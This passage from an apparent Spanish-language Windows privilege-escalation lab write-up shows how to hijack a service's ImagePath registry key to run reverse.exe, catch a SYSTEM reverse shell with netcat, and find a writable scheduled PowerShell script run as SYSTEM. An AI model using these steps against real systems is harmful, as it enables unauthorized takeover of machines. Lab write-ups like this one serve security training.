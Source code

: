 Sobreescriba la clave de registro con imagePath para que apunt al ejecutable reverse.exe que creó:

```
reg add HKLM\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
The operation completed successfully.
```

Reinicie el servicio para geberar un shell inverso que se ejecute con privilegios de SISTEMA

```
net start regsvc

──────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49932
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Tareas programadas

Ver el script C:\DevTools\CleanUp.ps1

```
type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
```
El script parece ejecutarse como SYSTEM cada minuto. Con accesschk.exe, tenga en cuenta que tiene la capacidad de escribir en este archivo

```
accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
RW C:\DevTools\CleanUp.ps1
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_TRAVERSE
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
        READ_CONTROL
```
